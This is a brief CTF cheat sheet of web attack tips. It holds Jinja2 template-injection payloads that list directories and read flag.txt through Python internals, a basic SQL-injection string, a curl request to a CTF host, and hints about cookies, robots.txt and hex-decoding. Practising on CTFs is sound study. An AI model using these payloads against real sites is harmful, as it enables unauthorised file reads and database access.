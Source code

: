### Useful things to try in web ctf challenges

```py
submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
to check the flag file location
```

```py
submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
to read the vulnerability
```

```python
SQL INJECTION
'OR'1'='1
```

get the flag
$ curl -I https://r3qu35t-m3-fl4g.vishwactf.com -X FLAG

change the cookie and refresh the website it works in some cases. try observing robots.txt file of a webpage.

\x47\x75\x65\x73\x73\x20\x54\x68\x65\x20\x46\x6C\x61\x67\x73\x68\x63\x74\x66\x7B\x66\x6C\x61\x67\x7D","\x59\x6F\x75\x20\x67\x75\x65\x73\x73\x65\x64\x20\x72\x69\x67\x68\x74\x2E..
convert to hex using ascii will give the flag.

